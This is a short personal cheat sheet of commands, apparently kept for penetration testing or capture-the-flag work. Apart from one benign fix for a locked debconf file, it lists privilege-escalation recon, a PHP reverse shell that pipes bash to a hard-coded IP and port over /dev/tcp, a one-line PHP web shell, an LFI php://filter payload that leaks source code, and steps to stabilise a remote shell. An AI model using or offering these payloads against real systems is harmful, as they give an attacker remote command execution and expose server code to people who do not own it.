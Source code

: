 # This section is for documenting common commands that are a pain to try and find again
### debconf: DbDriver "config": /var/cache/debconf/config.dat is locked by another process: Resource temporarily unavailable
    sudo fuser -v /var/cache/debconf/config.dat
    sudo kill 8123

## Privesc
- ### Find SUID binaries
        find / -perm -u=s -type f 2>/dev/null

- ### list sudo-able binaries
        sudo -l

## PHP

- ### php reverse shell
        <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.2.64.239/1234 0>&1'");

- ### php web shell
        <?php system($_GET[cmd]);?>

- ### php leak source code w/ LFI
        pagename=php://filter/convert.base64-encode/resource=login

### Stabilize shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl ^Z
    echo $TERM
    stty -a
    stty raw -echo
    reset
    xterm

# TO BE CONTINUED

